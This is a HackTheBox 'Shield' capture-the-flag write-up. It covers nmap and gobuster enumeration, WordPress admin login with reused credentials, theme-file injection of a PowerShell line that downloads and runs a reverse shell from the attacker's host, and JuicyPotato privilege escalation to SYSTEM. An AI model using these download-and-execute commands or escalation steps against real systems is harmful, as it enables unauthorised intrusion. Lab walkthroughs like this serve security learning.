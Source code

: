 ```yaml
---
weight: 1
title: "HackTheBox - Shield Writeup"
date: 2021-07-21
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["juicy-potato", "seImpersonatePrivilege", "wordpress", "reverse-powershell"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/31190" name="TRX" picture="https://www.hackthebox.com/storage/avatars/f7a696a1331031242f713514b7a4621a.png" >}}

<!--more-->

## Enumeration

- scan top 1000 ports
- the result

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![nmap initial scan](1.png "nmap initial scan")

- scan all ports
- the result

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![nmap allports scan](2.png "nmap allports scan")

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page

![IIS default page](3.png "IIS default page")

### Gobuster

- Using gobuster to find any hidden directory
- the result

![gobuster](4.png "gobuster")

### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success

![wordpress admin](7.png "wordpress admin")

## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![get shell](8.png "get shell")

- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![SeImpersonatePrivilege token](9.png "SeImpersonatePrivilege token")

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![juicy potato](12.png "juicy potato")

## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![juicy potato failed](13.png "juicy potato failed")

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![check OS version](14.png "check OS version")

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

{{< admonition warning "Note" >}}
Make sure you're running the `nc` for listening the connection </br>
**REMEMBER**: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.
{{< /admonition >}}


- the result

![shell as nt authority\system](15.png "shell as nt authority\system")

- we've got the root flag

![root flag](16.png "root flag")

## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)